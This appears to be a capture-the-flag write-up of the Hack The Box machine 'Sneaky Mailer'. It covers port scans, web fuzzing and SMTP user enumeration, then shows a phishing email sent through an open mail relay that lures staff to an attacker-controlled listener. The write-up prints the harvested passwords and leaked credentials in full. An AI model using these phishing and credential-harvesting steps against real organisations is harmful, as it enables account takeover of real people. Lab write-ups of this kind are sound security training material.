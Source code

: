 # Sneaky Mailer

Machine IP: 10.10.10.197

# Foothold

## Scanning

A quick scan on common 1000 ports.

```s
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
80/tcp   open  http     nginx 1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
993/tcp  open  ssl/imap Courier Imapd (released 2018)
8080/tcp open  http     nginx 1.14.2
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

A more thorough connect scan through all ports.

```s
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
80/tcp   open  http     nginx 1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
993/tcp  open  ssl/imap Courier Imapd (released 2018)
8080/tcp open  http     nginx 1.14.2
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 21

- Anonymous login not supported.

From the mails retrieved from Paul's email account (port 143), we have the credentials now.

```s
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
```

Exploring the ftp server reveals a `pypi` folder with a `register.php` file within in.

## Port 22

The `developer -  m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C` tuple is not working in SSH.

## Port 80

Website: http://10.10.10.197:80

- An employee dashboard throws up. Logout doesn't work.

- A curious thing happens with wfuzz. `wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.10.10.197:80/FUZZ` gives all payloads as `301` or `moved permanently`. And it makes sense. Even in the browser, `http://10.10.10.197:80` leads to `http://sneakycorp.htb/`. So a `wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://sneakycorp.htb/FUZZ` works.

- `POP3` and `SMTP` are fully tested and (maybe) running. While `PyPI` is 80% testing complete. It is possible to use `pip` to install modules on the server.

- `nginx 1.14.2` server running up. Generic `Not Found` page present giving away version info for the server.

- There is one notification (welcome notification) and 4 messages that aren't opening. 

- POP3 is said to be complete on the website but the port 110 is closed

Dirbuster output:

```s
Dir found: / - 200
Dir found: /img/ - 403
Dir found: /css/ - 403
Dir found: /js/ - 403
File found: /index.php - 200
Dir found: /vendor/ - 403
File found: /team.php - 200
Dir found: /vendor/jquery/ - 403
Dir found: /vendor/bootstrap/ - 403
Dir found: /vendor/bootstrap/js/ - 403
Dir found: /vendor/jquery-easing/ - 403
File found: /vendor/jquery-easing/jquery.easing.min.js - 200
File found: /vendor/jquery/jquery.min.js - 200
File found: /js/sb-admin-2.min.js - 200
Dir found: /vendor/chart.js/ - 403
File found: /vendor/bootstrap/js/bootstrap.bundle.min.js - 200
Dir found: /js/demo/ - 403
File found: /js/demo/chart-area-demo.js - 200
File found: /js/demo/chart-pie-demo.js - 200
File found: /vendor/chart.js/Chart.min.js - 200
Dir found: /pypi/ - 403
```

- The [team](http://sneakycorp.htb/team.php) page has a lot of emails to try stuff on.

An attack vector gets from `http://sneakycorp.htb/pypi/register.php` which comes from ftp server. We create an account. The fields in the form are `firstName`, `lastName`, `email`, `password`, and `rpassword` (`rpassword` denotes the repeat password in the form).

## Port 8080

Website: http://10.10.10.197:8080/

- A generic `nginx` page. Default page welcoming the user and informing about installation of the server.

## Port 25

- A `smtp   Postfix smtpd` is running on port 25. There are a couple of amazing msf modules: `auxiliary/scanner/smtp/smtp_enum` and `use auxiliary/scanner/smtp/smtp_version`.

- `smtp_enum` enumerates the list of users on the given smtp server. In our case, the following list came up: `avahi-autoipd, backup, bin, daemon, ftp, games, gnats, irc, list, lp, mail, man, messagebus, news, nobody, postmaster, proxy, sshd, sync, sys, uucp, www-data`

- `smtp_version`: 220 debian ESMTP Postfix (Debian/GNU)\x0d\x0a

- `nmap --script smtp-enum-users.nse -p 25 10.10.10.197` returns an unhandled status code.

- Exploit on [shellshock](https://www.exploit-db.com/exploits/34896) not working.

Note the stmp on port 25 is allowing an external user to issue commands to it. We might have used `theHarvester` or something to try and get email addresses from `hunter`[https://hunter.io/]. Verifying that the `VRFY` command works on this mail server, we perform an email phishing attack.

First we get the email addresses from the website through `cewl -e --email_file emails http://sneakycorp.htb/`. Then we attack through `telnet 10.10.10.197 25`. `MAIL FROM:` any random mail. `RCPT TO:` all the mail addresses.

```s
DATA
From: manwe
Subject: Ping at http://10.10.14.242:80
Dear recipients, Please be kind enough to ping me at http://10.10.14.242:80
.


POST / HTTP/1.1
Host: 10.10.14.242
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&
lastName=Byrd&
email=paulbyrd%40sneakymailer.htb&
password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&
rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

```

From `Content-Type`, it is clear that the response is urlencoded. Thus, decoding the encoded url, we get the password as ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht. The question to think about what password is this. After trying out a series of things, it turns out this the email's password itself. Which is intuitive, since before the password we have the email in the POST.

We set up `Evolution` and specify the server/port for IMAP and SMTP (and other services as well). There are two mails I got:

```s
From:	Paul Byrd <paulbyrd@sneakymailer.htb>
To:	low@debian
Subject:	Module testing
Date:	Wed, 27 May 2020 13:28:58 -0400 (27/05/20 10:58:58 PM IST)
Hello low

Your current task is to install, test and then erase every python module you 
find in our PyPI service, let me know if you have any inconvenience.


From:	Paul Byrd <paulbyrd@sneakymailer.htb>
To:	root <root@debian>
Subject:	Password reset
Date:	Fri, 15 May 2020 13:03:37 -0500 (15/05/20 11:33:37 PM IST)
Hello administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it
```

Thus, Paul mailed `root@debian` regarding change in password for the developer account.

## Port 143

Imap (Internet Message Access Protocol) means some sort of ISP is involved with the emails and stuff. Port 143 means the emails are unencrypted. And port 993 is the more secure version of 143.

- Banner grabbing and sending simple IMAP command to the server `nc -nv 10.10.10.197 143`. (`-n` basically is the IP address provided will be a numeric address and not a DNS. While `-v` means verbosity).

- `nmap` scanning of the imap port: `nmap --script=/usr/share/nmap/scripts/imap-ntlm-info.nse 10.10.10.197 -p143 -sV -sC`

```s
PORT    STATE SERVICE VERSION
143/tcp open  imap    Courier Imapd (released 2018)
```

We have the version number for the imap now.
